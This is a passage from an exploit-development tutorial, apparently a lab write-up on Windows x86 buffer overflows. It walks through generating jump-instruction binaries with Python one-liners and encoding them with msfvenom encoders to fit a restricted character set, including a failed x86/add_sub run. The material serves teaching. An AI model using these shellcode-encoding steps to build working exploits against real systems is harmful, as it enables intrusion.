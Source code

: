 	* Notice that the long jump operation code (`E9 43F2FFFF`) begins with `0xE9`, again this is outside of the allowed range of characters in `0x00` to `0x7F`, so we cannot directly use the long jump. We need to try encoding it!

2. For the encoder to work, we will need to generate some files containing the resulting machine code's binary. This can be done in 2 different ways.

	1. Modify and use the program [generate_shell.py](./SourceCode/generate_shell.py) to generate both files.
	2. Use the Python interpreter directly to generate the files.
		* ` python -c "buff= b'\xe9\x43\xf2\xff\xff'; fd = open('jmp_l.bin', 'wb'); fd.write(buff)"`: Generate the long jump binary.
		* `python -c "buff= b'\xeb\x80'; fd = open('jmp_s.bin', 'wb'); fd.write(buff)"`: Generate the short jump binary.
3. Now we can try using preexisting encoders, some easy one to try are provided by [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html). We omit the lengthy bad character list since the main challenge at this stage is the space we have to work with, which is what this example attempts to point out!

	```
	msfvenom -p - -a x86 --platform windows -e <Encoder> -o /dev/null
	```
	*  `msfvenom`: The MSFVenom command.
	* `-p -`: Specify the payload as something taken from stdin (Terminal input).
	* `-a x86`: Specify the target architecture as `x86`.
	* `--platform windows`: Specify the target platform as Windows.
	* `-e <Encoder>`: Specify the encoder to use, we can list all possible encoders with `msfvenom -l encoders`.
	* `-o /dev/null`: Specify the output file, since we just want to see the size of the resulting shellcode we do not want to save it (Write to /dev/null).

	1. Try [`x86/add_sub`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/add_sub) encoder on the long jump `jmp_l.bin`. This performs a series of additions and subtractions to encode the shellcode for transmission and recover the original instructions in memory at runtime.
		```
		cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/add_sub -o /dev/null
		```
		* This results in the following output. Notice that it fails! We have a 5-byte instruction that is not divisible by 4! If you would like to try, this can be padded with NOP instructions!
		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/add_sub -o /dev/null
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/add_sub
		x86/add_sub failed with Shellcode size must be divisible by 4, try nop padding.
		Error: No Encoder Succeeded
		```
	2. Try [`x86/alpha_mixed`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/alpha_mixed) encoder on the long jump `jmp_l.bin`. This encodes the payload as a series of mixed case (Upper/Lower) alphanumeric characters, which will then be recovered from the original instructions in the target machine's memory at runtime.
